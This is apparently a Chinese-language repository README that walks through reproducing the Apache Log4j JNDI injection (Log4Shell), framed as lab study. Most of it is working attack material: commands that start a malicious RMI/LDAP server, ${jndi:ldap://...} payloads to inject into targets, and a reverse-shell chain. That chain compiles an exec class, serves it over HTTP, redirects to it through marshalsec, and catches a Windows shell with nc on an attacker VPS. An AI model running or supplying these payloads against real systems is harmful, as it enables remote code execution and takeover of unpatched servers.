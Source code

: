 # 以下都是内网学习打的，仅供学习
poc来自 [https://github.com/tangxiaofeng7/apache-log4j-poc](https://github.com/tangxiaofeng7/apache-log4j-poc)
## Apache-Log4j的几种复现方式
## 1、使用./tools/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
vps IP 假设为 10.10.10.10
`java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc.exe" -A 10.10.10.10`
```
[root@VM_0_16_centos ~]# java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "ping xx.24b5010c.dns.1433.eu.org" -A 10.10.10.10
[ADDRESS] >> 10.10.10.10
[COMMAND] >> ping xx.24b5010c.dns.1433.eu.org
----------------------------JNDI Links---------------------------- 
Target environment(Build in JDK whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.10.10.10:1099/1ovanh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/kavkt9
ldap://10.10.10.10:1389/kavkt9
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.10.10.10:1099/m5m8wo
ldap://10.10.10.10:1389/m5m8wo
```
然后fuzz `${jndi:ldap://10.10.10.10:1389/kavkt9}` 或者 `${jndi:ldap://10.10.10.10:1389/m5m8wo} `
![](img/2.png)

## 2、反弹shell
试了几个windows的，都是无回显，执行命令磕磕绊绊，最后还是直接反弹了原生shell
我测试了一台windows，使用./src/ExecTemplateJDK7.java 修改里面的host和port为要反弹的地址(如果是linux，使用./src/linux.java就行了,其实就是cmd.exe改成/bin/bash)

然后javac ExecTemplateJDK7.java,生成ExecTemplateJDK7.class


然后在vps上开http服务`python3 -m http.server 9092`,以及监听端口`nc -l 9091`


然后同样在vps上 `java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.10:9092/#ExecTemplateJDK7 1389`


最后fuzz ${jndi:ldap://10.10.10.10:1389}
![](img/2.png)

效果是jdni上收到请求消息
`Send LDAP reference result for dd redirecting to http://10.10.10.10:9092/ExecTemplateJDK7.class`


httpserver请求 `[10/Dec/2021 10:04:39] "GET /ExecTemplateJDK7.class HTTP/1.1" 200`


nc收到windows-shell
![](img/1.png)

# 以上都是内网学习打的，仅供学习